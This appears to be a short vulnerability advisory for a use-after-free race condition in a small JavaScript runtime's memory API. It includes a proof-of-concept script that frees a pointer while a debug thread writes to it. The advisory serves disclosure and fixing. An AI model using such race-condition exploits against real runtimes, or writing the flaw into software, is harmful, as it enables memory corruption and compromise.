 # VID 012: UseAfterFree Vulnerability

### Description

A attacker may be able to write to a already released memory address, caused by a race condition where free needs sometimes less time than write to check the safety array which causes free to release the memory and write to then commit its change to the memory.

(threading is in debug)

Introduced in: n/a

fixed in: n/a

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// before treggering the UAF we allocate zombie pointers to ensure both have to do something
for(let i = 0; i < 10000; i++)
{
  memory.malloc(1);
}

// the race function
function race()
{
  obj.memory.mwrite8(obj.ptr, 0);
  return 0;
}

// now the actual pointer we gonna use after free
let ptr = memory.malloc(1);

// object we gonna pass to the thread
let tobj = {
  memory: memory,
  ptr: ptr,
};

// now we trigger the thread
debug_thread(race, tobj, "race", "obj");

// now we free the memory while the thread runs
memory.free(ptr);

// to ensure everything worse fine(I still need to add dispatch grouping so that the Runtime waits till the other threads are done too)
timer.wait(5);
```

